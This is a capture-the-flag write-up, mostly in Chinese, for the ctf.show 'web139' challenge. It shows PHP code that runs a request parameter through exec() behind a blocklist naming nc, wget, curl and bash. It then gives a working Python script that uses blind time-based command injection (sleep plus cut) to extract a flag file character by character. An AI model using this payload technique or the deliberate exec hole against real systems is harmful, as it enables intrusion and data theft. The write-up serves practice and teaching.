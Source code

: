 # web139

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

web136的升级版，虽然代码没变化但是应该是把tee过滤了，外带不出内容了，盲打

所以要截取字符串，使用awk命令

判断命令执行结果可以使用shell编程的语句以及sleep函数

![image-20221005171848871](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051718946.png?x-oss-process=hzy)

然后使用cut命令截取每个字符

![image-20221005171935941](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051719008.png?x-oss-process=hzy)



shell编程,if语句控制输出,sleep控制相应时间

![image-20221005172219427](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051722492.png?x-oss-process=hzy)

脚本如下

```
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
	print(j)
	if key==1:
		break
	for n in str:
		payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
		#print(payload)
		url="http://3d4bd4f4-65e4-497e-bf70-06d999bc350e.challenge.ctf.show/?c="+payload
		try:
			requests.get(url,timeout=(2.5,2.5))
		except:
		    result=result+n
		    print(result)
		    break

```
